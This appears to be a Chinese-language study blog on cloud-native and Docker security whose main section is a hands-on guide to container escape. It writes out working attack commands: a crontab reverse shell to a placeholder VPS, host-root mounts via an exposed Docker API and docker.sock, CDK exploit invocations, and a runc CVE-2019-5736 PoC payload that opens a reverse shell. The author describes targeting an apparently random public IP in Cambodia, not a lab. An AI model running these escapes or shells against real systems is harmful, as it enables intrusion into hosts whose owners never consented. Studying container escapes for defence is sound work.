










# 云原生

云原生可以拆分开来看，一方面是云，一方面是原生

云的理解：相当于我们程序的运行环境变了，之前是本地服务器，云则相对于本地，应用将放在云服务器上跑，而不是传统的数据中心，云包含了IaaS(基础设施即服务)、PaaS(平台即服务)和SaaS(软件即服务)

原生的理解：原生我们可以理解为出生地，指的是在开始设计应用的时候就考虑到以后应用将放到云上运行，原生为云而设计，在云上以最佳状态运行，充分利用和发挥云平台的弹性和分布式优势

# 云原生安全

云原生安全至少包含了微服务安全、无服务安全、编排平台安全、服务网格安全、容器安全、宿主机安全等等。

根据云原生环境的构成，面向云原生环境的安全体系可以概括为以下三个层面：

- 容器安全
- 编排系统安全
- 云原生应用安全：包括了微服务、无服务、服务网格、零信任体系、API 安全等等




自底向上看，底层从硬件安全（可信环境）到宿主机安全 。将容器编排技术（Kubernetes等）看作云上的“操作系统”，它负责自动化部署、扩缩容、管理应用等。在它之上由微服务、Service Mesh、容器技术（Docker等）、容器镜像（仓库）组成。它们之间相辅相成，以这些技术为基础构建云原生安全。

# 云安全的四个C

你可以分层去考虑安全性，云原生安全的 4 个 C 分别是云（Cloud）、集群（Cluster）、容器（Container）和代码（Code）



# 容器安全

## 按不同视角进行的安全划分

构建-部署-运行

- 构建时安全(Build)
  - 以规则引擎的形式运营监管容器镜像
    - Dockerfile
    - 可疑文件
    - 敏感权限
    - 敏感端口
    - 基础软件漏洞
    - 业务软件
- 部署时安全(Deployment)
  - Kubernetes
- 运行时安全(Runtime)
  - HIDS

**攻击前后**

- 攻击前：裁剪攻击面，减少对外暴露的攻击面（本文涉及的场景关键词：隔离）；
- 攻击时：降低攻击成功率（本文涉及的场景关键词：加固）；
- 攻击后：减少攻击成功后攻击者所能获取的有价值的信息、数据以及增加留后门的难度等。

**容器攻击面**

- Linux内核漏洞
  - 内核提权
  - 容器逃逸
- 容器自身
  - CVE-2019-5736：runc - container breakout vulnerability
- 不安全部署(配置)
  - 特权容器或者以root权限运行容器；
  - 不合理的Capability配置（权限过大的Capability）。

**Docker 容器逃逸案例：**

1、判断是否处于docker容器里

2、配置不当引起的逃逸

- Docker Remote API 未授权访问

- docker.sock 挂载到容器内部

- docker 高危启动参数

- - privileged 特权模式
  - 挂载敏感目录
  - 相关启动参数存在的安全问题

3、Docker 软件设计引起的逃逸

- Shocker攻击
- runC容器逃逸漏洞(CVE-2019-5736)
- Docker cp 命令(CVE-2019-14271)

4、内核漏洞引起的逃逸

- 脏牛漏洞（dirtycow-docker-vdso）

## 容器逃逸

### 判断是否是docker环境

如果在容器内的话，根目录下存在`.dockerenv`文件



检查 `/proc/1/cgroup` 是否存在含有docker字符串



```
sudo readlink /proc/1/exe
// 如果返回system字样则为宿主机

systemd-detect-virt -c
// 返回none则为宿主机
```





### 配置不当导致逃逸

#### docker未授权漏洞

可以用vulhub的环境一键搭建，但是我本机启动的时候出了一点问题，就找了个柬埔寨的IP




这个漏洞相当于我们可以去执行docker命令，所以可以挂载宿主机目录启动容器，下面命令把宿主机目录挂载到了/mnt目录下

```
docker -H tcp://<ip>:2375 run -it -v /:/mnt <Image ID> /bin/bash
```

exp

```
echo '* * * * * /bin/bash -i >& /dev/tcp/vps/12345 0>&1' >> /mnt/var/spool/cron/crontabs/root
```

其实整个过程就相当于去操作了宿主机目录下的文件，可以写SSH，可以写Crontab

或者直接利用cdk([Exploit:-docker-api-pwn](https://github.com/cdk-team/CDK/wiki/Exploit:-docker-api-pwn))在宿主机上执行命令

```
./cdk run docker-api-pwn http://136.228.141.20:2375 "touch /host/tmp/hack.txt"
```

这样就可以直接执行反弹shell的命令了

#### 特权模式启动容器

当操作者执行`docker run --privileged`时，Docker将允许容器访问宿主机上的所有设备，同时修改AppArmor或SELinux的配置，使容器拥有与那些直接运行在宿主机上的进程几乎相同的访问权限

其实这里和docker未授权的思路一样，都是能操作到宿主机的东西，一样的可以去写ssh和crontab来获取宿主机权限

具体操作方式如下。

- 新建一个目录：`mkdir /test`
- 挂载磁盘到新建目录：`mount /dev/vda1 /test`
- 切换根目录：`chroot /test`

使用cdk：

```
./cdk run mount-disk
```

#### 危险挂载目录

这里和最开始docker未授权一样的，启动容器的时候将宿主机的目录挂载进去了

挂载目录（-v /:/mnt）

#### 挂载docker socket导致逃逸

Docker采用C/S架构，我们平常使用的Docker命令中，docker即为client，Server端的角色由docker daemon扮演，二者之间通信方式有以下3种：

- unix:///var/run/docker.sock(默认)
- tcp://host:port
- fd://socketfd

简单来说就是如果docker客户端拥有了docker.sock就能与指定docker服务端交互，如果宿主机的docker.sock被挂载进了docker，那么攻击者就可以在docker里面使用docker客户端控制宿主机的docker，这个时候就可以按照上面的挂载宿主机目录来控制文件系统从而实现逃逸

```
docker run -itd -v /var/run/docker.sock:/var/run/docker.sock ubuntu:18.04
```

在容器内安装docker命令行客户端

```
apt-get update
apt-get install apt-transport-https ca-certificates curl gnupg-agent software-properties-common -y
curl -fsSL https://mirrors.ustc.edu.cn/docker-ce/linux/ubuntu/gpg | apt-key add -
apt-key fingerprint 0EBFCD88
add-apt-repository "deb [arch=amd64] https://mirrors.ustc.edu.cn/docker-ce/linux/ubuntu/ $(lsb_release -cs) stable"
apt-get update
apt-get install docker-ce docker-ce-cli containerd.io -y
```

接着使用该客户端通过Docker Socket与Docker守护进程通信，发送命令创建并运行一个新的容器，将宿主机的根目录挂载到新创建的容器内部

```
docker run -it -v /:/host ubuntu:18.04 /bin/bash
```



接下来还是一样的用ssh或者crontab拿shell

或者wget一个cdk执行命令

```
./cdk run docker-sock-pwn /var/run/docker.sock "touch /host/tmp/pwn-success"
```

#### 挂载procfs目录

procfs是一个伪文件系统，它动态反映着系统内进程及其他组件的状态，其中有许多十分敏感重要的文件。因此，将宿主机的procfs挂载到不受控的容器中也是十分危险的，尤其是在该容器内默认启用root权限，且没有开启User Namespace时(**Docker默认情况下不会为容器开启User Namespace**)。

```
docker run -itd -v /proc:/host/proc ubuntu:18.04
```

```
./cdk_linux_amd64 run mount-procfs /host/proc "touch /tmp/hack.txt"
```





#### 挂载 cgroup 目录

使用cdk进行利用

```
./cdk run mount-cgroup "<shell-cmd>"
```

### Docker 软件设计引起的逃逸

因为这种环境不好搭建，就没有去复现了，就抄了一遍做一个记录

##### CVE-2019-5736 runc容器逃逸漏洞

**漏洞详情**

Docker、containerd或者其他基于runc的容器运行时存在安全漏洞，攻击者通过特定的容器镜像或者exec操作可以获取到宿主机的runc执行时的文件句柄并修改掉runc的二进制文件，从而获取到宿主机的root执行权限。

**影响范围**

Docker版本 < 18.09.2
runc版本 <= 1.0-rc6。

**利用步骤**

使用POC：

POC: [CVE-2019-5736-PoC](https://github.com/Frichetten/CVE-2019-5736-PoC)

- 修改payload

```
PLAINTEXT
vi main.go
payload = "#!/bin/bash \n bash -i >& /dev/tcp/ip/port 0>&1"
```

- 编译

```
PLAINTEXT
CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build main.go
```

- 拷贝到docker容器中执行
- 等待受害者使用`docker exec`连接容器
- 收到反弹shell

##### CVE-2019-14271 Docker cp 命令容器逃逸攻击漏洞

**漏洞详情**

当Docker宿主机使用cp命令时，会调用辅助进程docker-tar，该进程没有被容器化，且会在运行时动态加载一些libnss.so库。黑客可以通过在容器中替换libnss.so等库，将代码注入到docker-tar中。当Docker用户尝试从容器中拷贝文件时将会执行恶意代码，成功实现Docker逃逸，获得宿主机root权限。

**影响范围**

Docker 19.03.0

**漏洞参考**

[CVE-2019-14271分析与复现](https://ssst0n3.github.io/post/网络安全/安全研究/容器安全/进程容器/服务器容器/docker/历史漏洞分析与复现/docker-software/plumbing/docker-cp/CVE-2019-14271/分析/CVE-2019-14271分析与复现.html)

##### CVE-2019-13139 Docker build code execution

**漏洞参考**

[CVE-2019-13139 - Docker build code execution](https://staaldraad.github.io/post/2019-07-16-cve-2019-13139-docker-build/)

### 内核漏洞导致docker逃逸

##### DirtyCow(CVE-2016-5195)脏牛漏洞实现Docker逃逸

因为Docker与宿主机共享内核，所以可通过内核提权漏洞实现Docker容器逃逸，获得root权限的shell。最经典的就是DirtyCow。

因为Docker与宿主机共享内核，因此容器需要在存在dirtyCow漏洞的宿主机里。

漏洞环境：https://github.com/gebl/dirtycow-docker-vdso


## 汇总

### Docker 自身漏洞

- cve-2017-1002101
- cve-2018-1002100
- cve-2018-15664 符号链接替换漏洞
- cve-2019-14271 加载不受信任的动态链接库
- cve-2019-1002101
- cve-2019-11246
- cve-2019-11249
- cve-2019-11251
- cve-2019-16884
- cve-2019-5736 runc 逃逸
- cve-2020-15257
- cve-2020-27151
- kata-escape-2020
- cve-2021-25741
- cve-2021-30465
- cve-2022-0492

### 内核漏洞

- cve-2016-5195 DirtyCow
- cve-2017-1000112
- cve-2020-14386
- cve-2021-22555
- cve-2022-0847 DirtyPipe

### 不安全的配置

- privileged-container
- mount-docker-sock
- mount-host-etc
- mount-host-procfs
- mount-var-log
- cap_dac_read_search-container
- cap_sys_admin-container


参考链接

https://wiki.teamssix.com/CloudNative/Docker/docker-escape-vulnerability-summary.html

https://threezh1.com/2021/02/26/%E4%BA%91%E5%8E%9F%E7%94%9F%E5%AE%89%E5%85%A8Cheat_Sheet/#%E4%BB%80%E4%B9%88%E6%98%AF%E4%BA%91%E5%8E%9F%E7%94%9F%E5%AE%89%E5%85%A8

https://www.ghtwf01.cn/2022/07/31/%E6%B5%85%E8%B0%88%E4%BA%91%E5%8E%9F%E7%94%9F%E5%AE%89%E5%85%A8%E4%B9%8B%E5%AE%B9%E5%99%A8%E5%AE%89%E5%85%A8/

https://tech.meituan.com/2020/03/12/cloud-native-security.html